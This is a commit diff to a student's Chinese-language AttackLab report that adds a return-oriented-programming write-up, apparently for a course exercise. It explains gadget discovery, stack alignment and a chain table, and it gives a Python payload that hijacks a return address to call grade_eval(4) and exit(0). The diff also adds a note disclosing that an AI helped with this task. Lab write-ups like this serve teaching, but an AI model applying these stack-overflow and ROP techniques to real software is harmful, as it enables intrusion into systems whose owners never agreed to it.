

Before and after one commit to Icedpiggy/AttackLab, a Markdown page: report.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; pictures changed too: assets/6.png (added); blank space fills up the shorter version.

Commit message:
Task 6 AI Assisted

````diff
--- a/report.md
+++ b/report.md
@@ -85,7 +85,43 @@ payload = b"\xbb\x87\x1a\x40\x00" + b"\x68\x1f\x1c\x40\x00" + b"\x6a\x04" + b"\x
 
 ### 6. ROP (10 pts 测试 + 10 pts 报告)
 
+- `dark-calc-nx` 非 PIE（gadget 地址固定），但栈 NX 且地址随机，不能像第 5 题那样执行栈上 shellcode。改为劫持 `input` 的返回地址，用 `.text` 里的 gadget 拼出 `grade_eval(4)`。
 
+- `expression` 在 `rbp-0x10`，payload 偏移 0x10 覆盖保存的 `rbp`，0x18 覆盖返回地址，0x20 起是链的 8 字节槽。`input` 的 `leave; ret` 在 `gets`/`strcpy` 后执行：`ret` 取出 `rbp+8` 处的第一个地址，并把 `rsp` 指向 `rbp+0x10`；之后每个 gadget 的 `ret` 依次弹下一格。链只依赖 `rsp`，所以栈的 ASLR 不影响它。
+
+- gadget 在 `0x4019d0–0x401ae3`。x86 指令变长，`objdump -s` 只能看字节，要用 `objdump -d`，并注意从指令中间开始的未对齐 gadget。`__libc_csu_init` 结尾的 `41 5f c3` 中，从 `0x401a33` 看是 `5f c3`，即 `pop rdi; ret`；`0x401a40` 是 `f3 c3`（`repz ret`），可当单独的 `ret`。`grade_eval` 入口 `0x401978`，`exit@plt` 是 `0x4016e0`。
+
+- `grade_eval` 只在 `edi == 4` 时打印，所以先用 `pop rdi; ret` 把 4 放进 `rdi`，再跳到 `grade_eval`；它结尾的 `leave; ret` 回到下一格。然后用 `pop rdi; ret` 把 0 放进 `rdi`，跳到 `exit@plt`。
+
+| 偏移 | 值 | 作用 |
+|---|---|---|
+| 0x00 | `b"A"*16` | 填满 `expression` |
+| 0x10 | `b"B"*8` | 保存的 `rbp` |
+| 0x18 | `0x401a33` | `pop rdi; ret` |
+| 0x20 | `4` | `rdi = 4` |
+| 0x28 | `0x401a40` | `ret`，对齐 |
+| 0x30 | `0x401978` | `grade_eval(4)` |
+| 0x38 | `0x401a33` | `pop rdi; ret` |
+| 0x40 | `0` | `rdi = 0` |
+| 0x48 | `0x401a40` | `ret`，对齐 |
+| 0x50 | `0x4016e0` | `exit(0)` |
+
+- `input` 的 `rbp` 是 16 字节对齐的，`ret` 后 `rsp = rbp+0x10`，第一个 gadget 入口 `rsp % 16 == 0`；ABI 要求函数入口为 8。`grade_eval` 里的 `printf` 在部分 glibc 上会因不对齐崩溃，所以在 `grade_eval` 和 `exit` 前各插一个 `ret`（`0x401a40`）。GDB 确认两者入口 `rsp % 16 == 8`，且 `edi` 分别为 4 和 0。
+
+构造如下：
+```python
+p64 = lambda x: x.to_bytes(8, "little")
+payload = (
+    b"A" * 16 + b"B" * 8
+    + p64(0x401a33) + p64(4) + p64(0x401a40)   # rdi=4，对齐
+    + p64(0x401978)                            # grade_eval(4)
+    + p64(0x401a33) + p64(0) + p64(0x401a40)   # rdi=0，对齐
+    + p64(0x4016e0)                            # exit(0)
+)
+```
+
+输出：
+![6](assets/6.png)
 
 ### 7. Canary (10 pts 测试 + 10 pts 报告)
 
@@ -95,5 +131,6 @@ payload = b"\xbb\x87\x1a\x40\x00" + b"\x68\x1f\x1c\x40\x00" + b"\x6a\x04" + b"\x
 
 - DeepSeek-V4.1-Flash-1017（通过 dsh 使用）：
   - 任务 1：帮助确认答案的出处。
-  - 任务 5：最初仅用于查询 `call` 指令的语法；段错误的定位和修改由 AI 辅助完成。我在没有 AI 帮助时独立完成的最好成绩是 payload 能正确输出 `Hope A will be your grade!`，但程序在打印后触发段错误（见 `assets/5.png`）。AI 指出 `grade_eval` 的 `mov %edi,-0x4(%rbp)` 覆盖了栈上 shellcode 末尾的 `ret`，并建议改用 `push 返回地址; jmp rbx` 让程序正常退出（修改后的输出见第 5 节）。
-- 除上述说明外，1–4 题的答案、payload 的构造与地址计算均由我独立完成。
+  - 任务 5：最初仅用于查询 `call` 指令的语法；段错误的定位和修改由 AI 辅助完成。我在没有 AI 帮助时独立完成的最好成绩是 payload 能正确输出 `Hope A will be your grade!`，但程序在打印后触发段错误（见 `assets/5-1.png`）。AI 指出 `grade_eval` 的 `mov %edi,-0x4(%rbp)` 覆盖了栈上 shellcode 末尾的 `ret`，并建议改用 `push 返回地址; jmp rbx` 让程序正常退出（修改后的输出见第 5 节）。
+  - 任务 6：ROP 的整体思路、gadget 地址（`pop rdi; ret`、`ret`）和链布局由 AI 提示，`payload_rop.py` 与本节报告由 AI 辅助完成并在本机验证。
+- 除上述说明外，1–4 题的答案、payload 的构造与地址计算均由我独立完成。（git 仓库中 AI 辅助完成部分会标明 AI Assisted，不完美的历史记录可以在 git 的 commit 记录中找到）
````
Also changed, not shown: other parts of report.md (+1 -1 lines), 3 other files.
